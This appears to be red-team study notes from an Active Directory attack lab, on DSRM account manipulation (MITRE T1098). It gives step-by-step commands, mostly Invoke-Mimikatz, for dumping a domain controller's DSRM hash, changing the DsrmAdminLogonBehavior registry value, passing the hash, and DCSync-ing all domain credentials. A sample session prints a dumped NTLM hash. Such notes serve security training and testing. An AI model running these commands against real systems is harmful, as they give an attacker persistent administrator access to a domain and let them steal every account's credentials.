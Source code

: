
# T1098 - Account Manipulation
* DSRM (Invoke-Mimikatz)
	* Overview
		* The DSRM password (SafeModePassword) is the same as the local Admininstrator account on each DC
		* If we alter the configuration of the DC a bit, we can use that password to login to the DC
	* Requirements
		* DA or Local Administrator on DC 
	* First, we need to dump the DSRM password using DA privileges
		  - Not so sneaky: `Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName dcorp-dc`
	* Second, we need to change the logon behavior configuration to allow us to logon
		  - **THIS IMPACTS THE SECURITY POSTURE OF THE ORGANIZATION. GET PERMISSION OR SOMETHING**
		  - `Enter-PSSession -ComputerName dcorp-dc`
		  - `New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD`
		  - If you get an error saying the property already exists:
			    + `Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2`
	* Third, pass the hash along the way to get access to the DC
		  - `Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:HASH-YOU-HAVE /run:powershell.exe"'`
	* From here, we can use mimikatz to pull other useful information, or just DCSync and smash everything
		  - ` Invoke-Mimikatz -Command '"lsadump::dcsync /domain:dollarcorp.moneycorp.local /dc:dcorp-dc /all /csv"'`
	* Examples
* PowerShell Window (DA)
```
PS C:\AD\Tools> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName dcorp-dc

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

536     {0;000003e7} 1 D 17576          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;031abdd5} 0 D 52084852    dcorp\svcadmin  S-1-5-21-1874506631-3219952063-538504511-1122   (12g,26p)       Primary
 * Thread Token  : {0;000003e7} 1 D 52127085    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz(powershell) # lsadump::sam
Domain : DCORP-DC
SysKey : 85462b93fc25ee67bb07ad899096199b
Local SID : S-1-5-21-1752050383-1088309824-3131404450

SAMKey : 33e0913ef3886d77d5873060bcea1cfb

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: a102ad5753f4c441e3af31c97fad86fd

RID  : 000001f5 (501)
```
